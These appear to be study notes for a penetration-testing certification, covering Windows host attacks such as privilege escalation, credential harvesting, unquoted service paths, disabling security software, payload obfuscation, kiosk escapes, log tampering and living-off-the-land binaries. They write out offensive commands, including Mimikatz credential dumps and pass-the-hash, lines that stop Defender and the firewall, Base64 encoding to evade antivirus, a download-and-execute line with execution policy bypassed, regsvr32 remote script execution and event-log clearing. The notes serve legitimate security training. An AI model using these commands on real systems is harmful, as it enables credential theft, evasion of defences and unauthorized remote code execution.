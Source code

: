 ## Host Attacks (Objective 4.4)

Host-based attacks exploit **system vulnerabilities** and **misconfigurations** to gain unauthorized control, escalate privileges, or deploy malicious payloads on individual machines. Understanding these techniques is critical for comprehensive penetration testing (Domain 4: Attacks & Exploits).  

---

### Privilege Escalation  
- **Definition:** Gaining higher-level permissions than initially granted.  
  - **Vertical:** user → administrator  
  - **Horizontal:** lateral access to peer accounts  
- **Demo Tools:** Metasploit for hands-on escalation.  
- **Key Tools & Commands:**  
  - **Mimikatz:** extract creds & perform pass-the-hash  
    - `sekurlsa::logonpasswords` → plaintext creds  
    - `lsadump::sam` → SAM hashes  
    - `sekurlsa::pth /user:Administrator /domain:example.com /ntlm:<hash> /run:cmd.exe`  
  - **Seatbelt (C#):** automated security checks  
    - `Seatbelt.exe all` → enumerate all checks  
    - `Seatbelt.exe -group=checkselevated` → high-integrity processes  
    - `Seatbelt.exe autoruns` → auto-run executables  
  - **PowerShell ISE:** GUI for scripting enumeration (users, services, software).

---

### Credential Harvesting  
- **Definition:** Collecting usernames/passwords via social engineering or post-exploitation dumps.  
- **Dumping Tools:**  
  - **Mimikatz** (memory creds)  
  - **Rubeus** (Kerberos tickets) : TGT tickets for Kerberos 
    - `rubeus.exe tgt::renew /user:admin /domain:banksecure.local`  

---

### Misconfigured Endpoints  
- **Endpoints:** computers, servers, mobiles.  
- **Risk:** weak policies, unnecessary services, open ports.  
- **Tools:**  
  - **PowerShell** – scripting & enumeration  
  - **PsExec** – remote command execution  
    - Lateral movement by running commands as SYSTEM  

---

### Unquoted Service Paths  
- **Misconfiguration:** executable paths with spaces lack quotes (e.g. `C:\Program Files\MyService\service.exe`).  
- **Risk:** Windows may execute `C:\Program.exe` if present.  
- **Detection (PowerShell):**  
  ```powershell
  Get-WmiObject Win32_Service -Filter "StartMode='Auto'" |
    Where PathName -match '^[^"]+\s[^"]+' |
    ForEach-Object { "$($_.Name): $($_.PathName)" }
```

- **Exploitation:** place malicious `Program.exe` in C:\ → runs with service privileges.
- **Mitigation:** always enclose service paths in quotes.


---

### Disabling Security Software

- **PowerShell:**
    - `Stop-Service -Name WinDefend -Force`
    - `Set-Service -Name WinDefend -StartupType Disabled`
    - Registry: `DisableRealtimeMonitoring = 1`

- **PsExec (remote):**
    - `psexec \\target -u user -p pass -s powershell.exe -Command "Set-NetFirewallProfile -Enabled False"`
    - Disable UAC via registry: `EnableLUA = 0`

---

### Payload Obfuscation
- **Goal:** hide malicious code from AV/IDS without altering function.
- **Methods:**
    - **Encoding** (Base64)
    - **Encryption**
    - **Compression**
    - **Code Manipulation** (junk code, renamed vars)
- **Example:**
    ```powershell
    $b = [System.Text.Encoding]::Unicode.GetBytes($payload)
    $e = [Convert]::ToBase64String($b)
    powershell -EncodedCommand $e
    ```
- Evil-WinRM: tool for interacting ith windows remote management services (WinRM)
	- **Example**: `evil-winrm -i <remote> -u <user> -p <pass> -s "powershell -EncodedCommand $encodedPayload`
 
---

### User-Controlled Access Bypass

- **AD CS Exploit (Certify):** request certs for privileged accounts via misconfigured templates.
- **Kerberos Manipulation (Rubeus):**
    - **Pass-the-Ticket** & **Golden Ticket** attacks.
- **Remote Exec (Evil-WinRM):** authenticate & run obfuscated payloads over WinRM.
	- Can be exploited through HTTP

---

### Shell & Kiosk Escapes

- **Shell Escape:** spawn full shell from restricted editors
    - e.g. in vi: `:!bash`
- **PowerShell:** `Invoke-Expression -Command "cmd.exe"`

- **Kiosk Escape:** leverage browser “Save As” to access filesystem.
	```powershell
	Invoke-WebRequest -Uri "url" -OutFile ".ps1" powershell.exe -ExecutioinPolicy Bypass -File ".ps1"
	````

- **WMI:** restart explorer to regain desktop:
    ```powershell
    (Get-WmiObject Win32_Process -Filter "Name='explorer.exe'").Terminate()
    Start-Process explorer.exe
    ```

---

### Library and Process Injection Method
- **DLL Injection**: loading a dll into memory space of a target process
- **Process Hollowing**: new process is launched in a suspended state replaces its memory with malicious code, then resumes the process
- **Reflective DLL Injection**: a stealthy injection where dll is loaded directly from memory than being written on disk
- **Remote Thread Injection**: creating a new thread in a remote process & pointing to memory with malicious code

---

### Log Tampering

- **Definition:** modify/clear logs to hide attacker activity.
- **Tools:** PowerShell `Clear-EventLog` (Security, Application, System), PsExec for remote.
- **Detection:** log integrity monitoring, alerts on sudden clearance, secure backups.
    

---

### Living Off the Land (LOLBins)

Use trusted OS binaries to evade detection:
- **powershell.exe** → `Get-Process | Out-File C:\Temp\procs.txt`
- **bitsadmin.exe** → cli for managing background intelligent transfer service (BITS)
	- `bitsadmin.exe /transfer "JobName" <url> <path>`
- **regsvr32.exe** → execute remote scripts
	- `regsvr32.exe /s /n /u /i:<url> script.sct scrobj.dll`
- **schtasks.exe** → schedule SYSTEM-level tasks
	- `schtasks.exe /create /tn "ElevatedTask"/tr <path> /sc onlogon /ru "SYSTEM"`
- **certutil.exe** → encode/exfiltrate data; managing certificates for auth. 